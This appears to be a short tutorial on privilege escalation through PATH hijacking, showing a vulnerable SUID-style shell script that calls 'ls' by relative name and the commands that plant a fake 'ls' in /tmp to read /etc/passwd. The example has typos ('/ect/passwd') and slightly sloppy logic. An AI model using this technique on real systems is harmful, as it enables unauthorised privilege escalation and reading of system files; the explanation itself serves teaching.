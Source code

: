 # Relative path to run binary

## Explanation

**Attention** if you want escalate privileges, the vulnerable script needs at least to have suid permission.
- [SUID redhat](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit)
.
When a program refere to a binary command without giving the absolute path, you can execute your own program instead of the command.
This program show below refer to this venurability. 

```
#!/bin/bash

ls /ect/passwd
```

When bash interpret `ls`, he is trying to find the command located in the `env | grep PATH`.
It try every directory, from letf to right, to check if the executable is located in. If it is, he execute it.
The tricks is to create a new file name "ls" write some code to execute at the emplacement /ect/passwd.
```
#write the command cat inside a ls file located in /tmp
echo cat > /tmp/ls
chmod +x /tmp/ls

#modifie the PATH, to get bash to find and execute your ls file instead of the real one.
PATH=/tmp
```

Now the previous script execute `cat /etc/passwd` instead of `ls /etc/passwd`.

